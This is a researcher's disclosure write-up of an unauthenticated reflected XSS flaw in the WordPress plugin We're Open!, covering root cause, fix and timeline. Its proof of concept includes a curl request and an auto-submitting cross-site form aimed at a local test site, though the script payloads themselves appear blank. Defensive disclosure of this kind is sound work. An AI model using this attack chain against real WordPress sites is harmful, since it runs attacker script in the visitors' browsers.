

| | |
|---|---|
| CVE | [CVE-2026-112869](https://www.cve.org/CVERecord?id=CVE-2026-112869) |
| Plugin | We're Open! (`opening-hours`) |
| Affected | <= 2.6 |
| Fixed in | 2.7 |
| Severity | CVSS 7.1 High |
| Attacker needs | No account. A victim only has to open a page the attacker controls. |
| Advisory | [Patchstack](https://patchstack.com/database/wordpress/plugin/opening-hours/vulnerability/wordpress-we-re-open-plugin-2-6-cross-site-scripting-xss-vulnerability) |
| PoC | [Mor-Golan/CVE-2026-112869-opening-hours](https://github.com/Mor-Golan/CVE-2026-112869-opening-hours) |

## Summary

We're Open! registers an AJAX action, `we_are_open_wp_ajax`, that any visitor can call without logging in.<br>
I found that the handler copies the `elements[0][content]` request parameter into its JSON response without removing tags or encoding anything, and WordPress serves that response as `text/html`.<br>
An attacker with no account can host a page that silently submits a cross site POST to this action, so anyone who opens that page runs the attacker's JavaScript in the WordPress site's origin.<br>
The handler is registered with the plugin's default settings, and no page, widget or shortcode has to be in use.

## Root cause

The plugin registers the handler for logged out visitors in `index.php` at line 639:

```php
add_action('wp_ajax_nopriv_' . $this->class_name . '_wp_ajax', array($this, 'wp_ajax'));
```

The only condition around this registration (lines 635 to 639) is the plugin's "Load JavaScript" option, and that option is on by default.<br>
When it has never been saved, `get_option()` returns its second argument, `TRUE`.<br>
Plugin activation and the upgrade path from versions before 1.35 both write `1`:

```php
$javascript = get_option($this->prefix . 'javascript', TRUE);   // index.php:617
update_option(__CLASS__ . '_javascript', 1, 'yes');             // index.php:307 and :487
```

So the handler is reachable on an untouched site.<br>
An administrator would have to uncheck "Load JavaScript" to remove it.

Inside `we_are_open::wp_ajax()` (line 4493) the checks only look at the shape of the request: `type` must be `update`, `elements` must be a non empty array, `elements[0][action]` must be `refresh`, and `elements[0][content]` must be a string longer than one character.<br>
There is no capability check, no nonce and no login check.<br>
The plugin's nonces belong to a separate admin action that has no `nopriv` registration.

The bug itself is at line 4578 (the allowlist is abridged here):

```php
$content = wp_kses_stripslashes($a['content'], array('div' => array('id' => array(), 'class' => array(), 'style' => array()), /* further tags elided */));
```

The second argument is an allowed HTML list, which is the signature of `wp_kses()`.<br>
Core's `wp_kses_stripslashes()` takes a single parameter, and in WordPress 7.0.2 its whole body is:

```php
function wp_kses_stripslashes( $content ) {
    return preg_replace( '%\\\\"%', '"', $content );
}
```

PHP silently drops the extra argument.<br>
The value is never filtered.<br>
All that happens is that backslash escaped quotes are turned back into plain quotes.<br>
In the same handler the `parameters` values do go through `sanitize_key()` and `sanitize_text_field()`, so `content` is the one field that gets through unsanitized.

The response is written at line 4623 with `echo json_encode($ret);`.<br>
The default `json_encode()` flags do not include `JSON_HEX_TAG`, so `<` and `>` reach the output unchanged, and `admin-ajax.php` sends the body as `Content-Type: text/html; charset=UTF-8`.<br>
A browser that navigates to this response renders it as an HTML document.

## Proof of concept

I tested on WordPress 7.0.2 and PHP 8.2 with We're Open!<br>
2.6 as the only active plugin and every plugin setting left at its default.

Two details of the path shape the payload.<br>
WordPress slash escaping breaks quoted attribute values, and `json_encode()` rewrites `/` as `\/`.<br>
So the payload contains no quotes and no slashes.<br>
The `` attributes are unquoted, and the marker `OH-OK` is built at runtime with `String.fromCharCode`, which means it never appears in the request.

**Step 1.** Confirm the reflection with one unauthenticated request, with no cookie and no nonce:

```bash
curl -si -X POST 'http://localhost:8080/wp-admin/admin-ajax.php' \
  --data 'action=we_are_open_wp_ajax&type=update&elements[0][action]=refresh' \
  --data-urlencode 'elements[0][content]='
```

The response (headers trimmed):

```http
HTTP/1.1 200 OK
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=UTF-8

{"elements":[{"action":"refresh","parameters":{"update":true,"outer_tag":false},"content":"","html":"<p class=\"opening-hours error\">Error: Please set <em>We’re Open!<\/em> preferences in Dashboard→Settings<\/p>","reload":false,"seconds_to_change":25377}],"open_now":false,"closed_now":true,"success":true}
```

The `content` member carries the tag with `<` and `>` intact.<br>
The sibling `html` member shows `json_encode()` escaping quotes and slashes while leaving angle brackets alone.<br>
It also holds the plugin's own "Please set preferences" notice, so a completely unconfigured install still reflects the payload.

**Step 2.** Deliver it cross site.<br>
I saved this page on a different origin (a different port on the same machine is enough) and opened it in a browser:

```html
<!doctype html><html><body>
<form id="f" method="POST" action="http://localhost:8080/wp-admin/admin-ajax.php">
<input name="action" value="we_are_open_wp_ajax">
<input name="type" value="update">
<input name="elements[0][action]" value="refresh">
<input name="elements[0][content]" value="">
</form><script>document.getElementById('f').submit();</script>
</body></html>
```

The form submits itself and the browser navigates to `http://localhost:8080/wp-admin/admin-ajax.php`.<br>
The request needs no cookie, so SameSite rules do not matter, and a top level form POST is a navigation, which CORS does not block.<br>
The plugin checks no `Origin`, no `Referer` and no token.<br>
Because the reply is `text/html`, the browser renders it as a page in the site's origin and the injected `onerror` handler runs.

The [PoC repository](https://github.com/Mor-Golan/CVE-2026-112869-opening-hours) has the full shell script, which sends the request, checks the reflection and writes an attacker page for the given target, plus two ready to use attacker pages.

## Impact

This is what I demonstrated in my lab at `localhost:8080`:

- An anonymous POST with no `Cookie` header and no nonce returned HTTP 200 as `text/html` with the payload reflected byte for byte.<br>
  Replaying the same body as a Subscriber and as an Administrator returned the same reflected value.
- I served the auto submitting page from a different local port, which is a distinct origin.<br>
  After the navigation, `location.origin` read `http://localhost:8080`, `window.OHPROOF` held `OH-OK`, and the injected `` was a live element whose parent was `BODY`, not escaped text. `OH-OK` is computed from character codes inside the browser and never travels in the request, so it can only be there if the script ran.
- With the second payload, `window.XSSFIRED` went from undefined to `1` and the page title was rewritten by the payload to the site's own domain.
- The "Load JavaScript" option had no stored value on the test site, so the handler answered in the shipped default state without any administrator configuration.



In practice, an attacker without an account can run JavaScript of their choice in the site's origin in the browser of anyone who opens a link to the attacker's page.<br>
The script can read and rewrite the document it lands in.<br>
In my test the victim browser was an anonymous visitor, and I did not stage anything beyond script execution.<br>
The WordPress login cookies are `HttpOnly`, so the script could not read them through `document.cookie`.

## Fix

Update We're Open! to version 2.7 or later.<br>
Where updating is not possible right away, unchecking the plugin's "Load JavaScript" option removes the unauthenticated registration of this handler.

The change I suggested in my report replaces the misused function with the one that actually takes an allowed HTML list:

```diff
-  $content = wp_kses_stripslashes($a['content'], array('div' => ..., ... ));
+  $content = wp_kses($a['content'], array('div' => ..., ... ));
```

## Timeline

- 2026-10-03: I found the vulnerability and confirmed it in my lab.
- 2026-10-24: CVE published.

## References

- [CVE-2026-112869 on cve.org](https://www.cve.org/CVERecord?id=CVE-2026-112869)
- [Patchstack advisory](https://patchstack.com/database/wordpress/plugin/opening-hours/vulnerability/wordpress-we-re-open-plugin-2-6-cross-site-scripting-xss-vulnerability)
- [PoC repository: Mor-Golan/CVE-2026-112869-opening-hours](https://github.com/Mor-Golan/CVE-2026-112869-opening-hours)
- [We're Open! on WordPress.org](https://wordpress.org/plugins/opening-hours/)
